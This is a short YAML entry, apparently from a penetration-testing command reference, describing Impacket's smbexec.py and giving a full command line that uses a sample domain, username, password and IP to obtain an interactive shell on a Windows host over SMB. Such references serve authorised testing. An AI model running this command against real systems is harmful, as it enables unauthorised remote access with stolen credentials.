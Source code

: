 ```yaml
---
description: |
  Impacket's smbexec.py. This will give you an interactive shell on the Windows host.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123
command: |
  python3 smbexec.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - SMB
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py
  - https://www.varonis.com/blog/insider-danger-stealthy-password-hacking-with-smbexec/
---
```

